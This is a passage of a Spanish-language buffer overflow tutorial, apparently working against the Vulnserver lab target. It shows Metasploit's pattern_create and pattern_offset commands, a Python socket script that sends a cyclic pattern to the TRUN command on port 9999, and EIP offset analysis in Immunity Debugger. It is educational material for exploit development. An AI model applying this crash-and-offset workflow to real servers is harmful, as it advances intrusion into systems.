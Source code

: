 Primero, se debe generar un patrón cíclico de aproximadamente **3000 bytes**, ya que en el fuzzing previo se identificó que el servidor vulnerable colapsaba con buffers de alrededor de **2700 bytes**. Para esto, ejecutamos el siguiente comando en la terminal de **Kali Linux**:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```

Este comando generará un patrón de 3000 bytes, que será utilizado para identificar el offset exacto.

### Envío del Patrón

Una vez que se ha generado el patrón, se debe modificar el script Python que anteriormente se utilizó en el fuzzing para que envíe este patrón en lugar de los caracteres repetitivos. A continuación se muestra un ejemplo de cómo realizar esto:

```python
#!/usr/bin/python
import sys, socket
from time import sleep

#buffer = "A" * 3000  # Reemplazar con el patrón generado
buffer = "reemplazar con el patrón generado por pattern_create"
ip_address = 'reemplazar por la ip address del target'

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, 9999))
    s.send(('TRUN /.:/' + buffer).encode('utf-8'))
    s.close()
except:
    print("Error al conectar con el servidor")
    sys.exit()

```

### Ejecución y Análisis

Después de enviar el patrón, el programa vulnerable debería colapsar de nuevo. En este punto, se debe abrir **Immunity Debugger** y observar el valor en el registro **EIP**. Este valor es crucial, ya que nos indica el punto exacto en el que el buffer sobrescribe el **EIP**. Un ejemplo de valor del **EIP** podría ser 386F4337.

### Cálculo del Offset

Con el valor del **EIP** identificado, el siguiente paso es utilizar la herramienta pattern_offset para encontrar el offset exacto dentro de los 3000 bytes generados. Esto se logra ejecutando el siguiente comando en **Kali Linux**:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 386F4337 -l 3000
[*] Exact match at offset 2003
```
